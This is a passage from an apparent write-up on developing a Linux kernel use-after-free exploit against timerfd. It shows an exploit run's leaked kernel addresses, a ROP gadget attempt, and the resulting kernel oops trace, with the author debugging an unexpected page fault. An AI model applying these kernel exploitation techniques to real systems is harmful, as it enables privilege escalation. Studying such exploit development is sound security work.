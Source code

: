 ### Try #4

Well, we can try to see in the source code if that's what happens, but (skill issue) we can test this. Let's set `timerfd_ctx[0]` to `&timerfd_ctx[0]+100`. This should give us a page fault for trying to execute `&timerfd_ctx[0]+100` at `RIP` with our current ROP gadget.

```sh
./exploit
uaf_buf: 0x19cd840
base_address: 0xffffffff9bc00000
timerfd_tmrproc: 0xffffffff9bee6a20
gadget1: 0xffffffff9be41107
previous_buf: 0x1
[    2.558530] input: ImExPS/2 Generic Explorer Mouse as /devices/platform/i8042/serio1/input/input3
[    2.560838] BUG: kernel NULL pointer dereference, address: 0000000000000074
[    2.561136] #PF: supervisor read access in kernel mode
[    2.561279] #PF: error_code(0x0000) - not-present page
[    2.561463] PGD 1c04067 P4D 1bfd067 PUD 1c18067 PMD 0 

[    2.562034] CPU: 0 PID: 65 Comm: exploit Tainted: G           O       6.6.16 #1
[    2.562239] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
[    2.562550] RIP: 0010:rb_erase+0x84/0x3a0
[    2.562947] Code: 89 16 48 8b 57 10 48 89 50 10 48 8b 32 83 e6 01 4c 01 d6 48 89 32 48 8b 17 48 83 fa 03 0f 86 82 00 00 00 48 89 d6 48 83 e6 fc <48> 3b 7e 10 0f 84 e4 00 00 00 48 89 $                                                                                                                               46 08 4d 85 c9 74 0f 48 83 c1
[    2.563416] RSP: 0018:ff623b9d00003f10 EFLAGS: 00010002
[    2.563559] RAX: ff17ea7401987128 RBX: ff17ea7401bf4d00 RCX: ff17ea7401987128
[    2.563795] RDX: 0000000000000065 RSI: 0000000000000064 RDI: ff17ea7401bf4d00
[    2.563975] RBP: ff17ea740761f220 R08: ff17ea740761f220 R09: 0000000000000000
[    2.564142] R10: ff17ea7401987128 R11: ff623b9d00003ff8 R12: 0000000000000006
[    2.564308] R13: ff17ea740761f220 R14: ff17ea7401bf4d00 R15: ff17ea740761f200
[    2.564524] FS:  00000000019cc3c0(0000) GS:ff17ea7407600000(0000) knlGS:0000000000000000
[    2.564799] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    2.564986] CR2: 0000000000000074 CR3: 0000000001c10000 CR4: 0000000000751ef0
[    2.565247] PKRU: 55555554
[    2.565386] Call Trace:
[    2.566143]  <IRQ>
[    2.566406]  ? __die+0x1e/0x60
[    2.566549]  ? page_fault_oops+0x17c/0x470
[    2.566697]  ? exc_page_fault+0x6b/0x150
[    2.566782]  ? asm_exc_page_fault+0x26/0x30
[    2.566895]  ? rb_erase+0x84/0x3a0
[    2.566989]  timerqueue_del+0x2e/0x50
[    2.567120]  __hrtimer_run_queues+0xdf/0x2a0

```

This does not seem to happen, but interestingly we do get a page fault which the `userfaultfd`, so does it end up handling in this situation as well? I have really no clue currently and need to dig further.
